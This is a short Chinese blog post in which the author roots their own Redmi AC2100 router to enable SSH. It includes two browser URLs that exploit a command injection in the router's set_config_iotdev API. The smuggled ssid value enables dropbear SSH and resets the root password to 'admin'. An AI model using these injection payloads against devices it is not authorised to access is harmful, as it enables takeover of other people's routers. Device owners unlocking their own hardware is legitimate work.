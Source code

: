 ```yaml
---
date: 2021-01-29
title: 红米 AC2100 开启 SSH 权限
tags: []
---
```

> TL;DR [看这里](https://www.right.com.cn/forum/thread-4032490-1-1.html)，成功版本为 `2.0.23 稳定版`，其他版本不保证成功。

之前按照 [这篇](https://www.xiaoz.me/archives/15192) 想开启路由器的 telnet 权限。

dalao 写了一些脚本，但是遇到了很多问题，包括但不限于：
- 由于忘关火绒导致 nc 被删除，弹出 `nc.exe不是内部或外部命令，也不是可运行的程序或批处理文件。8081端口被占用，请检查`。解决方法为进入火狐的恢复区恢复文件，并添加信任，以免误删。
- 获取包的时候脚本报错，但还是提示 PPPOE 获取成功。这个问题原因为演示版本为 `1.0.14`，而新路由器被官方自动升级为了 `2.0.23`，方法已不再适用。解决方法为从 `官方救砖工具以及原厂固件备份` 文件夹中手动上传 `1.0.14` 包升级 ROM。
- 第一次失败，无法继续。解决方法为断开 WAN LAN 口相连线，然后重试。

然后，，，到复制命令的时候死活进不去，于是放弃了。

突然看到 [帖子说](https://www.right.com.cn/forum/thread-4032490-1-1.html) 有漏洞可以钻，试了下直接拿下了 SSH 的 root 权限：

首先注销登陆的账户，然后重新登陆，这时观察浏览器顶上的 url,会有 `stok` 的参数，这就是 token 啦。有了 token 按照帖子里的办法就办法注入了，只需要两次就行，一定要吧 `<STOK>` 替换为自己的 token。

去掉 `#` 开头的注释，把链接复制到浏览器里面，注意把 <STOK> 替换为自己的。

```bash
# enable SSH

http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B

# change password to `admin`
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B

```

然后就可以愉快的一行登陆啦（密码为 `admin`）

```bash
ssh root@192.168.31.1
```